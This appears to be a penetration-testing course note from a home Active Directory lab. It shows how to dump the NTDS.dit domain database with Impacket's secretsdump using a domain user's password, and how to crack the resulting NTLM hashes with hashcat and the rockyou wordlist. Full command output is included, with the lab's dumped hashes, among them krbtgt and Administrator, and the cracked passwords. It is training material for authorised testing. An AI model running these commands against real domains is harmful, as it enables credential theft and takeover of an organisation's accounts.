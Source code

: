 #NTDS #hashcat #secretsdump  
# What is it?

- A database used to store AD data. This includes:

- User information
- Group information
- Security descriptors
- Password hashes

  

We can use secretsdump with the `-just-dc-ntlm`​ tag against the DC to perform this attack  

`secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132`​

- should dump all secrets including NTDS.DIT  

To show only the NTDS.DIT:  

`secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132 -just-dc-ntlm  

- should dump just NTDS.dit

Only crack nt part of hash not lm (lm:nt is format)

- copy user and full hashes to excel, use Data tab > Text to Columns > delimiter ":". Then can copy nt hash to file to use hashcat on that file

Results:
```
┌─(~/Documents/PEH)───────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/0)─┐
└─(09:52:32)──> secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.95.132 -just-dc-ntlm             ──(Sat,Jul06)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:60163dd27f6c523edea3d171b2687db4:::
MARVEL.local\tstark:1103:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\fcastle:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
MARVEL.local\pparker:1106:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
MARVEL.local\SQLService:1107:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
KzhlRYzkCb:1110:aad3b435b51404eeaad3b435b51404ee:6a9067dc6d904c7b3b1429540357683f:::
hawkeye:1111:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:20b10a26527aaed298fc553866b81642:::
THEPUNISHER$:1108:aad3b435b51404eeaad3b435b51404ee:af4c18929a5251f6c038e6e45416047b:::
SPIDERMAN$:1109:aad3b435b51404eeaad3b435b51404ee:5138b9cf4ccdda28a829bfc5e69f2d36:::
[*] Cleaning up... 
```

`hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`​ `--show`​  

- copy username and cracked passwords to a new excel tab
- use =vlookup(B1,Sheet2!A:B,2,false)​ in column C in tab 1
- This will match the hash with its cracked password in excel. Useful for engagements when there are a lot of hashes/cracked passwords
- Focus on user passwords to crack, DC passwords will likely not be cracked

Results:
```
┌─(~/Documents/PEH)───────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/0)─┐
└─(09:56:45)──> hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt                                 ──(Sat,Jul06)─┘
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 7 7800X3D 8-Core Processor, 6939/13943 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 12 digests; 11 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

64f12cddaa88057e06a81b54e73b949b:Password1                
31d6cfe0d16ae931b73c59d7e0c089c0:                         
c39f2beb3d2ec06a62cb887fb391dee0:Password2                
43460d636f269c709b20049cee36ae7a:Password1@               
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!                
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#           
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ntds.txt
Time.Started.....: Sat Jul  6 09:57:03 2024 (4 secs)
Time.Estimated...: Sat Jul  6 09:57:07 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3321.6 kH/s (0.17ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 6/11 (54.55%) Digests (total), 6/11 (54.55%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 45%

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => Started: Sat Jul  6 09:57:01 2024
Stopped: Sat Jul  6 09:57:08 2024
```

```
┌─(~/Documents/PEH)───────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/0)─┐
└─(09:57:08)──> hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt --show                      1 ↵ ──(Sat,Jul06)─┘
920ae267e048417fcfe00f49ecbd4b33:P@$$w0rd!
31d6cfe0d16ae931b73c59d7e0c089c0:
64f12cddaa88057e06a81b54e73b949b:Password1
c39f2beb3d2ec06a62cb887fb391dee0:Password2
f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#
43460d636f269c709b20049cee36ae7a:Password1@
```